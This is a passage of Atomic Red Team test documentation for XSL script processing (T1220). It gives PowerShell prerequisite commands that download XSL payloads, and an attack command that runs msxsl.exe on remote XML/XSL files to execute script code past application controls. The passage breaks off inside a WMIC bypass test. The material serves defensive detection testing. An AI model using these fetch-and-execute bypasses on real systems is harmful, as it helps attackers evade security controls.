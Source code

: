 ##### Description: XSL file must exist on disk at specified location (#{xslfile})

##### Check Prereq Commands:

```powershell
if (Test-Path #{xslfile}) {exit 0} else {exit 1} 
```

##### Get Prereq Commands:

```powershell
New-Item -Type Directory (split-path #{xslfile}) -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1220/src/msxslscript.xsl" -OutFile "#{xslfile}"
```

<br/>
<br/>

## Atomic Test #2 - MSXSL Bypass using remote files

Executes the code specified within a XSL script tag during XSL transformation using a remote payload. Requires download
of MSXSL from Microsoft at https://www.microsoft.com/en-us/download/details.aspx?id=21714. Open Calculator.exe when test
sucessfully executed, while AV turned off.

**Supported Platforms:** Windows

#### Inputs:

| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| xmlfile | Remote location (URL) of the test XML file. | Url | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1220/src/msxslxmlfile.xml|
| xslfile | Remote location (URL) of the test XSL script file. | Url | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1220/src/msxslscript.xsl|

#### Attack Commands: Run with `command_prompt`!

```cmd
C:\Windows\Temp\msxsl.exe #{xmlfile} #{xslfile}
```

<br/>
<br/>

## Atomic Test #3 - WMIC bypass using local XSL file

Executes the code specified within a XSL script using a local payload.

**Supported Platforms:** Windows

#### Inputs:

| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| wmic_command | WMI command to execute using wmic.exe | string | process list|
| local_xsl_file | Location of the test XSL script file on the local filesystem. | path | PathToAtomicsFolder&#92;T1220&#92;src&#92;wmicscript.xsl|
